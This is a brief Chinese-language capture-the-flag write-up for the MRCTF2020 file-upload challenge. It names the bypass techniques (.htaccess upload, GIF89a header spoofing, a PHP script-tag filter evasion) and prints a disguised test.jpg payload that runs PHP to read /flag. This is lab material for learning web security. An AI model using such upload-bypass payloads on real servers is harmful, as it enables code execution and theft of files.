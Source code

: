 # \[MRCTF2020]你传你🐎呢

## \[MRCTF2020]你传你🐎呢

## 考点

* 文件上传.htaccess
* GIF89a文件头bypass
* `<script language='php'>phpinfo();</script>`绕过文件内容限制

## wp

![](../.gitbook/assets/Image.png)

再上传test.jpg

```
GIF89a
<script language='php'>print_r(readfile("/flag"));</script>
```
